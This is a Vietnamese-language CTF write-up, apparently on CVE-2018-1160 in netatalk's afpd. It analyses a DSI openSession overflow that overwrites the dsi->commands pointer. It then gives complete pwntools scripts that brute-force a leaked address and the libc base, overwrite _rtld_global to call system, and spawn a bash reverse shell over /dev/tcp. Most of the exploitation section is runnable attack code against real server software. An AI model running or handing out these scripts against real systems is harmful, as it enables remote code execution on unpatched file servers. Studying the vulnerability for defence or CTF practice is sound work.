

- Mình không tắt tiến trình mẹ lắng nghe của netatalk, chỉ tắt gdb và debug lại nên instruction bị lỗi vẫn ở `0x7f7f65feafbb`.

- Các biến trong struct DSI bị ghi đè.



#### [b] Source.

- Tóm tắt lại quá trình sinh ra BUG vì muốn hiểu đầy đủ về bản thân lỗ hổng và cách khai thác nó, bạn phải xem mã nguồn và quan trọng nhất là hiểu vị trí bộ nhớ, cách sử dụng và vòng đời của biến bị ghi đè. 

```c
func main(){
	...
	// 
	func dsi_start[`afpd`]{
		...
		func dsi_getsession[`libatalk`]{
			...
			pid = dsi->proto_open(dsi) = func dsi_tcp_open[`libatalk`]{
					
			}
			...
			func dsi_opensession[`libatalk`]{
				// BUG overflow => overwrite *ptr!!!
			}
			...
		}
		...
		func afp_over_dsi[`afpd`]{
			...
			func dsi_stream_receive[`libatalk`]{
				...
				func dsi_stream_read[`libatalk`]{
					// write arbitrary use *ptr!!!
				} 
				...
			}
			...
		}
		...
	}
	...
}
```

#### [c] Idea.

- Ý tưởng là ta sẽ ghi đè struct `_rtld_global` trong `ld.so`, hai trường của cấu trúc là `&_rtld_global._dl_load_lock` và con trỏ hàm `&_rtld_global._dl_rtld_lock_recursive` được sử dụng tới khi process child gọi exit(), con trỏ hàm này với các tham số là biến nằm trong chính cấu trúc `_rtld_global`  - bạn nên đọc thêm về kỹ thuật ghi đè `_rtld_global`. Tiến hành ghi đè con trỏ hàm thành `system` trong libc và đối số chính là trường còn lại của cấu trúc thành `reverseshell`
- Từ ý tưởng trên phát sinh vấn đề là ta cần có được địa chỉ của libc.

## C. EXPLOITATION

### [1] Stage 1: Bruteforce ptr dsi->commands.

- Ý tưởng của việc bruteforce giá trị được chỉ tới bởi con trỏ `dsi->commands` để tính địa chỉ của libc base là giá trị trả về `server_quantum`. Như đã nói ở phần PoC:
    * Nếu biến con trỏ `dsi->commands` được ghi đè bởi một giá trị hợp lệ (có thể ghi được) thì giá trị trả về client từ server sẽ chứa giá trị của biến `server_quantum`.
    * Ngược lại, nếu biến con trỏ `dsi->commands` được ghi đè bởi một giá trị không hợp lệ (không thể ghi được) thì chương trình sẽ segmentation fault ở instruction `movzx  eax, byte ptr [rcx + r9]` và không có giá trị trả về client từ server.
- Ngoài ra chương trình xử lý mỗi kết nối TCP mới đến bằng cách là chia thành các process child - `fork()` và không gian địa chỉ sẽ giống với không gian địa chỉ của process parent nên khi xảy ra `segmentation fault` chương trình chỉ tiến hành thoát process child thay vì dừng toàn bộ chương trình.
> => Ta sẽ bruteforce từng byte giá trị một của ptr *dsi->commands, nếu con trỏ commands đã sửa đổi là một địa chỉ có thể ghi, hàm dsi_opensession() có thể đặt giá trị của server_quantum vào và trả lại cho client, nếu không process child sẽ bị lỗi do truy cập vào địa chỉ không thể ghi, gây ra lỗi và không có giá trị trả về.

__[+] NOTE:__ Có 1 vài lưu ý khi tiến hành bruteforce:
- Biến con trỏ `*dsi->commands` được khởi tạo với giá trị `malloc(dsi->server_quantum))` <=> malloc(0x1000) vì vậy giá trị của con trỏ là một vùng nhớ được cấp phát bởi `mmap()`.
- Có thể sử dụng [PoC.py](./PoC.py) (code khi chưa ghi đè ptr - chỉ có b'aaaabbbbccccddee'), rồi DEBUG để xem gái trị gốc của `dsi->commands` .

```c
// (./libatalk/dsi/dsi_tcp.c)
static void dsi_init_buffer(DSI *dsi)
{
    if ((dsi->commands = malloc(dsi->server_quantum)) == NULL) {
        LOG(log_error, logtype_dsi, "dsi_init_buffer: OOM");
        AFP_PANIC("OOM in dsi_init_buffer");
    }

    /* dsi_peek() read ahead buffer, default is 12 * 300k = 3,6 MB (Apr 2011) */
    if ((dsi->buffer = malloc(dsi->dsireadbuf * dsi->server_quantum)) == NULL) {
        LOG(log_error, logtype_dsi, "dsi_init_buffer: OOM");
        AFP_PANIC("OOM in dsi_init_buffer");
    }
    dsi->start = dsi->buffer;
    dsi->eof = dsi->buffer;
    dsi->end = dsi->buffer + (dsi->dsireadbuf * dsi->server_quantum);
}
```





- Ta sẽ tiến hành bruteforce từ 0xff -> 0x00 (lý do là nếu thử từ 0x00 -> 0xff thì ít nhất 3 byte 0x7f7f65 vẫn vậy mới cho ra địa chỉ có thể ghi, nhg 3 byte cuối sẽ chọn giá trị có thể ghi được là thấp nhất trước dẫn đến địa chỉ có thể ghi được đó là địa chỉ gần phần datasegment, rất xa libc dẫn đến việc __THỬ TIẾP ĐỊA CHỈ LIBC SẼ FAIL__).

```c
#!/usr/bin/env python3
from pwn import *
context(arch="amd64", os="linux", endian="little", log_level="debug")

def gen_dsi(data):
    dsi_header = b""
    dsi_header += b"\x00"  # "request" flag
    dsi_header += b"\x04"  # open session command
    dsi_header += b"\x00\x01"  # request id
    dsi_header += p32(0)  # data offset
    dsi_header += p32(len(data), endian="big")
    dsi_header += p32(0)  # reserved
    dsi_header += data
    return dsi_header


leak_addr = b""
while len(leak_addr) < 6:
    for i in range(255, -1, -1):
        io = remote("127.0.0.1", "5566")
        payload = b'\x01'+ p8(0x10+len(leak_addr)+1)+ b'a'*0x10 + leak_addr + p8(i)
        io.send(gen_dsi(payload))
        try:
            a = io.recv()
            leak_addr += p8(i)
            log.success('Find! {}'.format(hex(i)))
            io.close()
            break
        except:
            io.close()

log.success(hex(u64(leak_addr.ljust(8, b"\x00"))))
```

- Khi đó giá trị ta bruteforce được là một giá trị nằm trên `libc.so`, nằm trong `segment anon` ở giữa `ld.so`. 



### [2] Stage 2: Bruteforce LIBC base => getshell.

- Vấn đề khi bruteforce là giá trị ta leak được chưa chắc đã đúng là giá trị gốc của ptr bởi vì chỉ cần là một địa chỉ ghi được trong chương trình thì vẫn sẽ có gái trị trả về từ server.
>Lợi dụng việc chunk được phân bổ từ mmap là 0x1000 và khoảng cách giữa các vùng như `ld.so base` và `libc.so base` hay là start của các `segment anon` (những cái này là các vùng được chọn ra do không lưu data nên dùng cho mmap) với libc đều là bội số của 0x1000.

=> Tiến hành xóa ba byte cuối của giá trị leak được rồi bruteforce giá trị của libc bằng cách thử liên tục các giá trị đó và sẽ có một cái đúng được thử giúp ta bật được shell.

`(Mình sẽ không đề cập sâu đến kỹ thuật ghi đè rtld và reverseshell ở đây vì nó là technique khai thác chung, bài này mình chỉ xoáy sâu vào vấn đề của nó nằm ở việc bruteforce).`



- Khai thác local (Vì các giá trị libc thử liên tục lên cho dù đã thử đúng địa chỉ libc rồi nhưng payload vẫn tiếp tục chạy thử do để bật được reverse shell cần gọi được hàm exit() - đã bị ta ghi đè rtld mà khi đó thời gian chờ thoát khá lâu nên phỉa đợi một lúc mới có revershell được trả về).

```c
#!/usr/bin/env python3
from pwn import *
context(arch="amd64", os="linux", endian="little", log_level="debug")

ip   = "127.0.0.1"
port = 5566
libc = ELF("./libc.so.6")

def genDSI(data):
    dsi_header = b""
    dsi_header += b"\x00"  # "request" flag
    dsi_header += b"\x04"  # open session command
    dsi_header += b"\x00\x01"  # request id
    dsi_header += p32(0)  # data offset
    dsi_header += p32(len(data), endian="big")
    dsi_header += p32(0)  # reserved
    dsi_header += data
    return dsi_header

def arbitraryWrite(io,addr,data):
    payload  = b'\x01'+ p8(0x18)+ b'a'*0x10 + p64(addr)
    io.send(genDSI(payload))
    io.recv()
    io.send(genDSI(data))

def bruteForce():
    leak_addr = b""
    while len(leak_addr) < 6:
        for i in range(255, -1, -1):
            io = remote(ip, port)
            payload = b'\x01'+ p8(0x10+len(leak_addr)+1)+ b'a'*0x10 + leak_addr + p8(i)
            io.send(genDSI(payload))
            try:
                a = io.recv()
                leak_addr += p8(i)
                log.success('Find! {}'.format(hex(i)))
                io.close()
                break
            except:
                io.close()
    return u64(leak_addr.ljust(8, b'\x00'))

leak_addr = bruteForce()
log.success('################## Leak: ' + hex(leak_addr) + ' ##################')
log.info('START TRY LIBC')
leak_addr = leak_addr & 0xffffff000000

for i in range(0x0000000,0xffff000,0x1000):
    libc.address = leak_addr - i
    log.success('Try libc base address: ' + str(hex(libc.address)))
    rtld = libc.address + 0xed4060
    cmd = b'bash -c "bash -i >& /dev/tcp/127.0.0.1/1234 0<&1"'
    try:
        io = remote(ip,port)
        arbitraryWrite(io,rtld+2312,cmd.ljust(0x5f8,b'\x00')+p64(libc.symbols['system']))
        io.close()
    except:
        io.close()
```



## D. FLAG

__[+] VẤN ĐỀ KHI KHAI THÁC REMOTE:__
- Bạn cần thuê VPS tại Nhật để có thể RCE (cái này hint đề bài cho version ubuntu và ip kết nối đến khi kiểm tra là ip máy chủ tại Nhật Bản), mình thuê Linode giống với máy chủ của bài và đẩy file khai thác lên VPS.
```bash    
scp /path/exp.py <username_server>@<ip_server>:/path
```
- Offset giữa `ld.so` và `libc.so` của server và client có thể sẽ khác nhau, để tìm đúng chính xác offset bạn cần tìm và cài đặt đúng phiên bản mà thử thách cung cấp (phiên bản vào cùng khoảng thời gian ý có thể giúp được bạn) [ubuntu18.04](http://old-releases.ubuntu.com/releases/18.04.1/).
- Vấn đề trên có một cách để giải quyết đó là một ý tưởng khác khi ghi đè `__free_hook`, sẽ trình bày thêm sau khi có thời gian.
- Tiến hành viết file [exp.py](./exp.py) và khai thác:



------------------------------------------------------------------
## [+] REFERENCE:

Lần đầu mình phân tích CVE nên viết hơi tràn lan :D, nếu có góp ý gì các bạn có thể liên hệ với mình.

- [link tham khảo chính](https://xuanxuanblingbling.github.io/ctf/pwn/2021/11/06/netatalk/?hmsr=joyk.com) .

- Cách ko phụ thuộc offset libc.so và ld.so

    * [netatalk-1](https://gtrboy.github.io/posts/netatalk/) .

    * [netatalk-2](https://ama2in9.top/2021/01/07/cve-2018-1160/) .

- Link bài viết Tiếng Việt nhưng chưa hoàn thiện =( [HackMD](https://hackmd.io/@lanleft/pwnable-netatalk) .

